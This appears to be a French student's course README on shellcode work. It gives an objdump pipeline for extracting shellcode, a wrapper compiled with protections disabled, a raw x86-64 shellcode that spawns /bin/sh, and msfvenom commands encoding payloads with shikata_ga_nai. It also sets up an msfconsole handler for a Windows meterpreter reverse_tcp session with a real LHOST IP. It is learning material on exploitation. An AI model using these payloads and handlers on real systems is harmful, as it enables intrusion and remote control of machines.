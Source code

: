Gaspard PEPIN
ING 3 Cyber Groupe A

Cours sur les shellcodes

Concernant shellcode01.c : 

Pour récupérer le shellcode (très long), j'ai trouvé la commande suivante sur internet utilisant objdump :

objdump -d ./shellcode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'       


Concernant wrapper.c : 

Modifié d'internet, il prend un argument un shellcode qu'il charge en mémoire et l'exécute ensuite.
J'ai du mal à le faire fonctionner même avec des shellcodes très courts.
J'en ai donc trouvé un plus simple mais qui ne fonctionne pas.
Et on le compile avec :
gcc wrapper.c -o wrapper -fno-stack-protector -z execstack

exemple de lancement (ouverture bin/sh) :
./wrapper $(python2 -c 'print("\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05")')

Concernant asm32 et asm64 :

Compilable avec ./build.sh < asmX >
Lancement de l'executable avec ./asmX

Afin de voir la valeur des returns, faire echo $?

Pour asm05, il faut avoir asm01 de générer.


Concernant MSF :

Voici les commandes à faire dans le dossier msf pour avoir les shellcodes :

msfvenom -a x86 --platform linux -e x86/shikata_ga_nai -f c -i 2 -o asm01_x86.shellcode < ../asm32/asm01
msfvenom -a x86 --platform linux -e x86/shikata_ga_nai -f c -i 2 -o asm02_x86.shellcode < asm02 
msfvenom -a x86 --platform linux -e x86/shikata_ga_nai -f c -i 2 -o asm03_x86.shellcode < asm03 
msfvenom -a x86 --platform linux -e x86/shikata_ga_nai -f c -i 2 -o asm04_x86.shellcode < asm04 
msfvenom -a x86 --platform linux -e x86/shikata_ga_nai -f c -i 2 -o asm05_x86.shellcode < asm05 
msfvenom -a x86 --platform linux -e x86/shikata_ga_nai -f c -i 2 -o asm06_x86.shellcode < asm06 


Pour les reverseShell et bindShell, il faut faire ces commandes dans le terminale host et lancer l'un des deux prg sur la machine cible.

msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 7777
set LHOST 176.100.43.89
exploit